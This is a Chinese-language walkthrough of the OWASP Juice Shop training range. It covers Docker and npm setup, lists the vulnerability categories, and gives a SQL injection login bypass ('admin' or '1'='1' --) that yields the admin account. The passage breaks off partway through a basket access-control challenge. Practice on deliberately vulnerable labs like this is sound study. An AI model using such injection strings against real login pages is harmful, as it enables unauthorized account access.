


# Juice Shop靶场全解

## 靶场搭建

搭建就不用直接搭建了

[在线靶场即可](https://juice-shop.bachang.org/#/login)


### Docker搭建

当然也可以直接`Docker`

```
docker pull bkimminich/juice-shop

docker run --rm -p 127.0.0.1:80:3000 bkimminich/juice-shop
```


### npm搭建

```
git clone https://github.com/juice-shop/juice-shop.git --depth 1
# 或者直接去https://github.com/juice-shop/ 下载对应node版本、对应操作系统的包
https://github.com/juice-shop/juice-shop/releases/tag/v17.1.1

进去文件夹里面
cd frontend && npm install --legacy-peer-deps && cd .. && npm run build:frontend && (npm run --silent build:server || cd .)

npm install
npm start
```


## 前情提要

Juice Shop靶场是使用Node.js、Express、Angular编写的，共169个漏洞场景

靶场相关资料：https://pwning.owasp-juice.shop/companion-guide/latest/index.html

其中包含了多种常见漏洞，但是结合了实际的场景设置，可以很好的模拟实际的渗透测试场景

- 访问控制
- 反序列化
- 身份验证失效
- 跨站脚本攻击
- 不安全加密
- 不正确的输入验证
- 注射
- 杂项
- 安全配置错误
- 隐私泄露
- XXE
- 组件安全

等等


这个靶场的特点就是进一步模拟了真实场景，只说了存在漏洞，但是具体什么位置需要自己去挖掘

参考wp：https://blog.csdn.net/seanyang_/article/details/134790531


# 漏洞


### Miscellaneous : Score Board⭐


### Injection : Login Admin⭐⭐

登陆页面的SQL注入，尝试万能密码

```
admin' or '1'='1' -- 
admin' or '1'='1' -- 
```





成功登录

```
用户 : admin@juice-sh.op
```




### Broken Access Control : View Basket⭐⭐

查看其他用户的购物车。

我们已经用万能密码成功登录上去了，所以试着访问购物车的时候进行抓包

